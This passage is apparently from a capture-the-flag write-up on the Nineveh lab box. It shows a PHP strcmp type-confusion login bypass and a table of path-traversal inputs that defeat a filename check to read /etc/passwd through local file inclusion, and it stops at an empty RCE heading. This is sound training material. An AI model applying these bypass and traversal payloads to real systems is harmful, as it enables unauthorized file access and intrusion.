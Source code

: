 However, it is actually returning a NULL, and if that NULL is then compared to 0, it evaluates true:

```

php > if (strcmp(array(), "admin") == 0) { echo "oops"; }
PHP Warning:  strcmp() expects parameter 1 to be string, array given in php shell code on line 1
oops

```

### Enumerate manage.php

On login, I’m redirected to `manage.php`, as shown above. In addition to the home button which just shows the under construction image, there’s a Notes button which just adds `?notes=files/ninevehNotes.txt` to the same PHP page and displays this text under the image:

![image-20200411063735004](https://0xdfimages.gitlab.io/img/image-20200411063735004.png)

The login page with hardcoded username and password is likely what I bypassed with type confusion. The secret folder reference is interesting. I’ll come back to that. And the db interface is something I’ve already exploited.

### LFI POC

Anytime I see a url that seems to give a file path as an argument, I want to poke at it for local file include (especially now since that’s what I need to get RCE).

I tried a handful of things to get a feel for what was going on:

| notes parameter | Error Message |
| --- | --- |
| `ninevehNotes.txt` | No error, displays note |
| `/etc/passwd` | No Note is selected. |
| `../../../../../../../../../../etc/passwd` | No Note is selected. |
| `ninevehNotes` | Warning: include(files/ninevehNotes): failed to open stream: No such file or directory in /var/www/html/department/manage.php on line 31 |
| `ninevehNote` | No Note is selected. |
| `files/ninevehNotes/../../../../../../../../../etc/passwd` | File name too long. |
| `files/ninevehNotes/../../../../../../../etc/passwd` | The contents of `/etc/passwd` |
| `/ninevehNotes/../etc/passwd` | The contents of `/etc/passwd` |

It took a minute to realize, but it seems to be checking that the phrase `ninevehNotes` is in the parameter, or it just displays “No Note is selected.”. But there are ways to get around that, either by just removing the extension and going up directories, or starting at `/` and then going into a non-existent folder `ninevehNotes` and immediately back out with `../`. The system is nice enough to cancel those two out, while allowing PHP to pass the string check.

### RCE

